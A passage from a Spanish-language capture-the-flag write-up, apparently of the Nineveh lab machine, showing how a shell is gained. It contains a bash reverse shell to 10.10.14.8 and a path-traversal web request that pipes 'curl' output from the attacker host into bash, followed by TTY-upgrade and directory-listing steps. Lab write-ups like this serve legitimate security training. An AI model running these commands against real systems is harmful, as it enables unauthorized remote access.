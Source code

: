     bash -i >& /dev/tcp/10.10.14.8/443 0>&1
    ```

1. Compartimos un servidor web con *python*

    ```bash
    python3 -m http.server 80
    ```

1. Lanzamos la reverse shell por la web

    ```bash
    10.10.10.43/department/manage.php?notes=files/ninevehNotes/../var/tmp/hack.php&cmd=curl -s 10.10.14.8|bash
    ```
    
ya hemos ganado accesso al sistema.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Analizamos el sistema {-}

```bash
pwd
ls -l
cd ..
ls
cd ..
ls
```

Aqui vemos que hay un directorio llamado 
```bash
 ssl 
```
 que contiene otro directorio 
```bash
 secure_notes 
```
 y como todo esto esta en 
```bash
 /var/www/html 
```
